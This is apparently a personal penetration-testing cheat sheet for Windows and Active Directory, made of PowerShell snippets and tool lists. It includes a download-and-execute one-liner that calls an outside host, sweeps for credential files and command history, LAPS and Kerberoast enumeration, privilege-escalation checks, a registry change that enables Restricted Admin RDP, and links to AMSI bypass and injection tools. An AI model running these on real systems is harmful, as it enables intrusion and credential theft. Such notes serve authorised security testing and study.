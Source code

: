 # To DO:

- find code and have links to different injection techniques with descriptions
## Enumeration
- Bloodhound/Sharphound
- open ports internally and externally
- users files 
	- .ssh
	- /tmp
	- bash_history
	- powershell command history

## Powershell

#### Download scripts
```powershell
iex(new-object system.net.webclient).downloadstring('http://192.168.49.68/_<ToolName>_.ps1')
```

##### Searching
```powershell
Get-ChildItem -Path C:\Users -Include *.txt,*.doc,*.pdf,*.docx,*.xls,*.xlsx,*.kdbx -File -Recurse -ErrorAction SilentlyContinue
```

##### Command history
```powershell
foreach($user in ((ls C:\users).fullname)){cat "$user\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt" -ErrorAction SilentlyContinue}
```

#### Search all including hidden
```powershell
Get-ChildItem -Path C:\Users -Recurse -File -ErrorAction SilentlyContinue -Force| where Length -gt 0kb
```

#### Invoke Commands Remotely

```powershell
Invoke-Command -computername <name> -scriptblock { whoami }
```
- do things like rollback Windows Defender or execute payloads

#### Obfuscation
- Invoke-Steatlh on kali (https://github.com/JoelGMSec/Invoke-Stealth?tab=readme-ov-file)
## PowerView

- Website https://powersploit.readthedocs.io/en/latest/Recon/
- General Commands to try
```
ConvertTo-SID                   -   converts a given user/group name to a security identifier (SID)
```
```
Invoke-Kerberoast               -   requests service tickets for kerberoast-able accounts and returns extracted ticket hashes
```
```
Get-Domain                      -   returns the domain object for the current (or specified) domain
```
```
Get-Forest                      -   returns the forest object for the current (or specified) forest
```
```
Get-ForestDomain                -   return all domains for the current (or specified) forest
```
```
Get-DomainUser                  -   return all users or specific user objects in AD
```

#### Find all LAPS-enabled machines
```powershell
Get-DomainComputer -LDAPFilter '(ms-Mcs-AdmPwdExpirationtime=*)'
```

##### **Enumerates all users/groups who can view LAPS password on specified `LAPSCLIENT.test.local` machine**
```powershell
Get-DomainComputer LAPSCLIENT.test.local | 
	Select-Object -ExpandProperty distinguishedname | 
	ForEach-Object { $_.substring($_.indexof('OU')) } | ForEach-Object { 
		Get-DomainObjectAcl -ResolveGUIDs $_.ObjectDN 
	} | Where-Object { 
		($_.ObjectAceType -like 'ms-Mcs-AdmPwd') -and 
		($_.ActiveDirectoryRights -match 'ReadProperty')
	} | Select-Object -ExpandProperty SecurityIdentifier | Get-DomainObject
```



## PowerUp



## Tools to not forget

- Invoke-ReflectivePEInjection
- impacket tools
- krbrelayx
- ntlmrelay
- comsvcs.dll (dump process memory to file)
- UAC Bypass

## Kerberos tickets

- look in /tmp on linux hosts
- run klist to see tickets on windows and linux 

## Websites for Tools

### AMSI Bypass
- https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell?tab=readme-ov-file


### Code Snippets
- https://github.com/chvancooten/OSEP-Code-Snippets
- https://github.com/tasox/CSharp_Process_Injection/tree/main


### Install always elevated

```powershell
# Check User Policy
$userPolicy = Get-ItemProperty -Path 'HKCU:\Software\Policies\Microsoft\Windows\Installer' -Name AlwaysInstallElevated -ErrorAction SilentlyContinue

# Check Machine Policy
$machinePolicy = Get-ItemProperty -Path 'HKLM:\Software\Policies\Microsoft\Windows\Installer' -Name AlwaysInstallElevated -ErrorAction SilentlyContinue

# Output Results
if ($userPolicy.AlwaysInstallElevated -eq 1) {
    Write-Host "User policy for AlwaysInstallElevated is enabled."
} else {
    Write-Host "User policy for AlwaysInstallElevated is disabled or not set."
}

if ($machinePolicy.AlwaysInstallElevated -eq 1) {
    Write-Host "Machine policy for AlwaysInstallElevated is enabled."
} else {
    Write-Host "Machine policy for AlwaysInstallElevated is disabled or not set."
}

```


### RDP Restricted Admin

```powershell
Get-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation" | Select-Object RestrictedAdmin, AllowRestrictedAdmin
```

```powershell
Get-WinEvent -LogName 'Microsoft-Windows-TerminalServices-RemoteConnectionManager/Operational' -FilterHashtable @{Id=1149} | ForEach-Object {
    $_.Message
} | Select-String -Pattern "RestrictedAdmin"
```

- Disable Restricted Admin
```powershell
New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0
```